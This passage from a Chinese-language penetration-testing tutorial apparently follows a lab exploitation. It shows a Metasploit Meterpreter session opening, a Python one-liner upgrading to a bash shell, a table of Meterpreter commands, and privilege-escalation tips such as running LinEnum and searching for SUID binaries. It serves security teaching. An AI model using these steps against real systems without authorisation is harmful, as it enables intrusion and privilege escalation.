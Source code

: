 ```msf
run
```

成功后提示：

```
[*] Sending stage (38247 bytes) to 192.168.126.139
[*] Meterpreter session 1 opened ...
```

![image-20250728170041676](file:///C:/%5CUsers%5CAdministrator%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20250728170041676.png)

### ✅ 第 6 步：提升交互性（获得 bash shell）

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20250728170108510](file:///C:/%5CUsers%5CAdministrator%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20250728170108510.png)

------

## 💻 三、Meterpreter Shell 常用命令速查表

| 命令                 | 功能说明         |
| -------------------- | ---------------- |
| `sysinfo`            | 查看系统信息     |
| `shell`              | 进入系统 shell   |
| `getuid`             | 查看当前用户身份 |
| `ls`, `cd`           | 文件目录操作     |
| `download`, `upload` | 上传/下载文件    |
| `background`         | 挂起当前会话     |
| `sessions -i 1`      | 恢复会话         |
| `exit`               | 退出会话         |

------

## 🔓 四、提权操作建议

### ✅ 1. 上传提权检查脚本（如 LinEnum）

### ✅ 2. 查找 SUID 文件（可利用提权）

```bash
find / -perm -4000 -type f 2>/dev/null
```
